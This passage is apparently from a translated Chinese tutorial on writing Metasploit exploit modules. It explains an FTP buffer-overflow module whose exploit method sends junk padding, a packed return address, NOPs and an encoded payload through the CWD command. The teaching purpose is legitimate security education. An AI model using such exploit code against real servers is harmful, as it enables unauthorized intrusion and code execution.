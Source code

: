 ```
        [ 
                Opt::RPORT(21), 
         OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous']) 
        ]) 
  End 
```

在上一章中，我们研究了许多利用模块。这种利用也不例外。我们首先包括所有必需的库和来自`/lib/msf/core/exploit`目录的`ftp.rb`库。接下来，我们在`initialize`部分分配了所有必要的信息。我们从漏洞中收集要点，将返回地址分配给`Ret`，并将`Offset`设置为`2008`。我们还将`FTPPASS`期权的价值声明为`'anonymous'`。让我们看看代码的下一部分：

```
def exploit 
    c = connect_login 
    return unless c 
    sploit = rand_text_alpha(target['Offset']) 
    sploit << [target.ret].pack('V') 
    sploit << make_nops(10) 
    sploit << payload.encoded 
    send_cmd( ["CWD " + sploit, false] ) 
    disconnect 
  end 
end 
```

`connect_login`方法将连接到目标并尝试使用我们提供的匿名凭据登录软件。但是等等！我们什么时候提供凭证的？模块的`FTPUSER`和`FTPPASS`选项通过包含 FTP 库自动启用。`FTPUSER`的默认值为`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了`anonymous`值。

接下来，我们使用`rand_text_alpha`从`Targets`字段中使用`Offset`的值生成`2008`的垃圾，然后将其存储在`sploit`变量中。我们还使用`sploit`变量中的`pack('V')`函数，以小端格式保存`Targets`字段中的`Ret`值。将`make_nop`函数生成的 NOP 与外壳代码连接起来，我们将其存储到`sploit`变量中。我们的输入数据已准备好提供。

接下来，我们使用 FTP 库中的`send_cmd`函数将`sploit`变量中的数据发送到`CWD`命令中的目标。那么，Metasploit 有何不同？让我们看看：

*   我们不需要创建垃圾数据，因为`rand_text_aplha`函数为我们创建了垃圾数据。
*   我们不需要以 little-endian 格式提供`Ret`地址，因为`pack('V')`函数帮助我们进行转换。
*   我们从不需要手动指定 NOP，因为`make_nops`自动为我们指定了 NOP。
*   我们不需要提供任何硬编码外壳代码，因为我们可以在运行时决定和更改有效负载。这通过消除对外壳代码的手动更改来节省时间。
*   我们只是利用 FTP 库来创建和连接套接字。
*   最重要的是，我们不需要使用手动命令进行连接和登录，因为 Metasploit 使用一种方法为我们完成了连接和登录，即`connect_login`。

# 使用 Metasploit 开发目标应用

我们看到了 Metasploit 的使用比现有的漏洞利用有多大的好处。让我们利用该应用并分析结果：
